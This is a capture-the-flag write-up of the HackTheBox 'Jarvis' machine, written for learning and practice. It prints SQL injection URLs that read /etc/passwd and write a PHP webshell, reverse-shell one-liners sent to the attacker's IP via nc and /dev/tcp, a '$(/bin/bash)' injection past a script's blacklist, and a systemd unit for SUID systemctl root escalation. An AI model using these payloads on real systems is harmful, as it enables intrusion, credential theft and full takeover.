# HackTheBox
------------------------------------
### IP: 10.129.229.137
### Name: Jarvis
### Difficulty: Medium
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Jarvis]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.229.137           
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-03 08:44 CDT
Nmap scan report for 10.129.229.137
Host is up (0.086s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03f34e22363e3b813079ed4967651667 (RSA)
|   256 25d808a84d6de8d2f8434a2c20c85af6 (ECDSA)
|_  256 77d4ae1fb0be151ff8cdc8153ac369e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds
```

Looking at the page on port 80 we find a hotel site:



Spending some time manually enumerating the site I'm not seeing much functionality other than the `cod` parameter showing users rooms to book.



Lets explore this parameter and see if it is vulnerable to IDOR or SQL Injection.

The first command I like to run when testing for sql injections is `1%20or%20sleep(10)`

If the page takes 10 seconds to load, we're likely in business for a SQL injection, and luckily it worked here on Jarvis.

We can begin enumerating how many columns there are by using `order by`. 

We can keep incrementally increasing our count from 1 to 7, and continue fetching the same results:



But once we get to 8 we get an unexpected result:



This lets us know we have 7 columns.

Going back to the browser we can now grab the version number at:

```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,(select%20@@version),3,4,5,6,7;--%20-
```



Cool, Lets use `LOAD_FILE` to try displaying the `/etc/passwd file`:

```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,%20LOAD_FILE(%22/etc/passwd%22),%203,%204,5,6,7--%20-
```



Nice, We also see there is a user named pepper on the box.

Unfortunately we are unable to display their id_rsa:

```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,%20LOAD_FILE(%22/home/pepper/.ssh/id_rsa%22),%203,%204,5,6,7--%20-
```

Lets go back and list the databases:

```
http://10.129.229.137/room.php?cod=00%20UNION%20SELECT%201,%20group_concat(schema_name),%203,%204,%205,%206,%207%20from%20information_schema.schemata;--%20-
```



### Exploitation

Rather than working through all the dbs and tables and columns, which can be really time consuming when done manually, lets first try creating a webshell:

```
10.129.229.137/room.php?cod=00 union select "",'<?php system($_REQUEST[0]); ?>', "", "", "", "", "" into outfile '/var/www/html/shell.php'-- -
```

We can confirm execution at: http://10.129.229.137/shell.php?0=whoami



We can now grab a reverse shell one-liner from revshells.com:

```
http://10.129.229.137/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.216%20443%20%3E%2Ftmp%2Ff
```

And catch a shell back in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Jarvis]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.229.137] 59862
bash: cannot set terminal process group (609): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$ whoami
whoami
www-data
www-data@jarvis:/var/www/html$ hostname
hostname
jarvis
```

But we are still unable to grab the user.txt flag:

```
www-data@jarvis:/home/pepper$ cat user.txt
cat: user.txt: Permission denied
```

Running `sudo -l` to see if www-data can run anything with elevated permissions we find:

```
www-data@jarvis:/home/pepper$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Looking at the script we see we have the option to use `ping` which is interesting because that is a system command.

```
<sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP

```

Looking more closely we can see several escape characters frequently used in command injection are blacklisted:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

However `$` is not blacklisted. 

Lets run:

```
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<SNIP>
Enter an IP: $(/bin/bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
pepper@jarvis:/var/www/Admin-Utilities$ id
```

Cool, looks like we've switched users to pepper, but normal commands don't seem to be working.

Lets set up another listener and run:

```
/bin/bash -i >& /dev/tcp/10.10.14.216/443 0>&1
```

Which catches us a fully interactive shell:

```
┌──(ryan㉿kali)-[~/HTB/Jarvis]
└─$ nc -lnvp 443                                  
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.229.137] 59868
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper
pepper@jarvis:/var/www/Admin-Utilities$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

we can now grab the user.txt flag:



### Privilege Escalation

Running LinPEAS we see that `/bin/systemctl` has the SUID bit set.



I almost always turn to gtfobins.com for sudo and SUID abuse, but for systemctl specifically I've had the best luck with this PoC: https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740

First we'll generate our root.service using vi on the target:

```
pepper@jarvis:/dev/shm$ cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.216/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

Then we can set up a nc listener on our attacking machine.

Back on the target we can run:

```
/bin/systemctl enable /dev/shm/root.service
```

Followed by:

```
/bin/systemctl start root
```

Where we then catch a shell back as root and can grab the final flag:



Thanks for following along!

-Ryan

---------------------------------------------------------
